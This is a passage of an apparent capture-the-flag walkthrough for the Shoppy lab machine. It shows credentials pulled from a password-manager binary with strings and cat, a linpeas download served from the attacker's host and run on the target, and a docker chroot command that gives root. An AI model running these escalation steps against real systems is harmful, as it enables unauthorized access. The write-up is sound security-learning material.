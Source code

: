 Let's have a look at this password-manager thing. There was a hint about it also in mattermost.

- If we launch it it will ask for a password `sudo -u deploy /home/deploy/password-manager`

- we need to lookup for a password in the files we can read.
- Let's make a strings on the binary `strings /home/deploy/password-manager`. The following lines are interesting

![strings](../.res/2022-12-29-13-54-27.png)

- Maybe if we use cat we will actually see a password `cat /home/deploy/password-manager`

![password](../.res/2022-12-29-13-55-58.png)

- Let's try `Sample` as a password. It works. We get another password `Deploying@pp!` the one for the user deploy

![password](../.res/2022-12-29-13-58-12.png)

### From deploy to root

- We can now ssh as deploy

![ssh deploy](../.res/2022-12-29-14-01-23.png)

- sudo -l does not help here let's get linpeas. Here are the spec of our target `Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64 GNU/Linux`  

- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.4/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
- So we need to analyze further a few things
  - It mentions docker as a 95% pe vector so def worth having a look. The deploy user is a member of the docker group. Also I remember of an example that was using this. Let's check [gtfobins](https://gtfobins.github.io/gtfobins/docker/) 
- We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` and it works! We are now root and can grab the last flag.
